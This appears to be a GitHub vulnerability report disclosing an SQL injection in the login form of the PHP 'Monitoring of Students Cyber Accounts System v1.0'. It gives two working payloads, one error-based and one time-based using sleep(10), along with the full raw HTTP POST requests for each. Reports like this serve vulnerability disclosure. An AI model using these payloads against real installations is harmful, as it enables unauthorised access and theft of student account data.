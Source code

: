 # Monitoring of Students Cyber Accounts System v1.0 has SQL injection

BUG_Author: Xue Yue

Website source address:https://www.sourcecodester.com/php/11743/monitoring-students-cyber-accounts.html

Vulnerability url: /MSCAB/login.php

POST parameter 'un' exists SQL injection vulnerability

Payload1:un=a' and (select 6 from(select count(*),concat(0x61626364,(select (elt(66=66,1))),0x71727374,floor(rand(0)*2))x from information_schema.plugins group by x)a)-- a&up=b&log=Login

```
POST /MSCAB/login.php HTTP/1.1
Host: localhost
Content-Length: 177
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/MSCAB/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=4ucuktra2adujlr277p85iuap1
Connection: close

un=a' and (select 6 from(select count(*),concat(0x61626364,(select (elt(66=66,1))),0x71727374,floor(rand(0)*2))x from information_schema.plugins group by x)a)-- a&up=b&log=Login
```

Injection success based on errors

![image](https://github.com/xyaly163/bug_report/blob/main/picture/sql1.png)

Payload2:un=a' and (select 7 from (select(sleep(10)))e)-- n&up=b&log=Login

```
POST /MSCAB/login.php HTTP/1.1
Host: localhost
Content-Length: 65
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/MSCAB/login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=4ucuktra2adujlr277p85iuap1
Connection: close

un=a' and (select 7 from (select(sleep(10)))e)-- n&up=b&log=Login
```

Server response time is 10 seconds

![image](https://github.com/xyaly163/bug_report/blob/main/picture/sql2.png)
